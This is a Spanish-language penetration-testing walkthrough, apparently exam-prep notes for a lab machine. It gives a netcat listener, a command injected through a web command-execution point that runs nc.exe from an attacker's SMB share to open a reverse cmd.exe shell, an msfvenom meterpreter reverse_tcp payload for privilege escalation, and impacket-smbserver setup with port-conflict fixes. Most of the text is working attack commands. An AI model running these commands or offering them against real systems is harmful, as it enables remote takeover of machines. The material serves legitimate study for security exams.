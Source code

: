 ```bash
sudo nc -nvlp 443
```

Ahora nos dirigimos al navagedor y donde podiamos ejecutar comando hacemos lo siguiente :

```bash
\\192.168.0.X\recurso\nc.exe -e cmd.exe 192.168.0.X 443
```

y si todo sale bien, tendremos acceso a la máquina 

En el examen cuando cae este ejemplo, por lo general ya solemos ser administrador, no haría falta escalar

Pero si les pasa como en este caso no somos administrador nos tocaría escalar privilegios 

Si quieren escalar privilegios en este caso yo les recomiendo convertir esta sesión a un meterpreter, por que con una sesión de meterpreter vamos a poder conseguir escalar privilegios de una manera potente 

Si desean hacerlo, primero deberiamos crear un archivo malicioso con `msfvenom` de la siguiente manera

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=444 -f exe -o shell.exe 
```

Esto nos permitira crear un archivo `shell.exe`, si los servidores wget o curl podríamos compartirlo con un servidor http con python 

Pero en este caso como no se encuentran instalados debemos hacer el anterior procedimiento levantandonos un recurso compartido 

```bash
impacket-smbserver recurso $(pwd) -smb2support
```

>El comando `impacket-smbserver` levanta el servidor SMB utilizando el puerto 445 por defecto porque el puerto 445 es el puerto estándar utilizado para el protocolo SMB (Server Message Block). Este puerto es el puerto predeterminado para servicios SMB en redes modernas y es utilizado para compartir archivos, impresoras y otros recursos en una red.
### Opciones para solucionar el problema

1. **Especificar un puerto diferente**: Puedes cambiar el puerto predeterminado a uno que esté libre utilizando el parámetro `-port`. Por ejemplo, para usar el puerto 4455:
   
```
impacket-smbserver -port 4455 recurso $(pwd) -smb2support
```

2. **Verificar y detener procesos que usan el puerto 445**: Para verificar qué procesos están usando el puerto 445 y detenerlos, puedes usar los siguientes comandos:

```
sudo lsof -i :445
```

Esto mostrará los procesos que están usando el puerto 445. Luego, puedes detener estos procesos utilizando:
```
sudo kill -9 <PID>
```
